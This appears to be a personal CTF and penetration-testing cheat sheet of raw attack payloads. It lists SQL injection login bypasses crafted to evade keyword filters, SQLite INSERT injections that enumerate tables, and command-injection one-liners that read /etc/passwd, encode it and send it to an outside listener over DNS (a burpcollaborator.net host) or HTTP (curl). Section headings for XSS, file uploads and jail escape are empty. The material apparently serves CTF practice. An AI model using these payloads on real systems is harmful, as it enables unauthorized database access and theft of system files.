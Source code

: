 ```https://d00mfist1.gitbooks.io/ctf/content/basics_of_linux.html
                    https://gupta-bless.medium.com/exploiting-sql-injection-with-no-space-query-4840362d1674
                    
                        use admin'/**/--## instead of admin' --##
                         use admin'||1=1&&username='test'||'
                         use '#or#1=1#--## instead of ' or 1=1 --##
                        

                    Filter (or)
                        payload : admin' -- ##

                    Filter (or and like = -)
                        payload :  admin' /*

                    Filter (or and = like > < -)
                        payload : admin' /*

                    Filter (or and = like > < – admin)
                        payload : adm' || 'in' /*
                        payload : in(char(97,100,109,105,110))

                    Filter (or and = like > < – union admin)
                        payload : adm' || 'in' /*



                INJECTING USING INSERT METHOD(SQLITE)

                    TEMPLATE
                    insert into users(item,item,item,item) values('value1','value2','value3',' PAYLOADHERE  ') 

                    admin') union select 1,tbl_name,3 from sqlite_master -- ##
                    ' || (select sqlite_version() )) -- ##
                    ' || (select tbl_name from sqlite_master )) -- ##
                    
            XSS
            file uploads
            php injection


            COMMAND INJECTION,REQUEST SMUGGLING AND JAIL ESCAPING

                    
                    DNS SMUGGLING
                    ..............
                         - FILE=$(head -1 /etc/passwd | base64 | tr -d '=') && nslookup $FILE.phagc9i3td3tpra4ze1r59rff6ly9n.burpcollaborator.net
                         - nslookup $(cat /etc/passwd | base64 | tr -d '/n').phagc9i3td3tpra4ze1r59rff6ly9n.burpcollaborator.net


                    HTTP SMUGGLING
                    ..............
                        - FILE=$(head -1 /etc/passwd | base64 | tr -d '=') && curl http://listener:4444?result=$FILE
                        - curl http://listener:4444?result=$(head -1 /etc/passwd | base64 | tr -d '=')
                        - SOMEFILE=$(head -1 /etc/passwd | base64) && curl 'http://localhost:4444?file='$SOMEFILE 
                        - curl 'http://127.0.0.1:4444?file='$(head -1 /etc/passwd)
                        
                    JAIL ESCAPE
```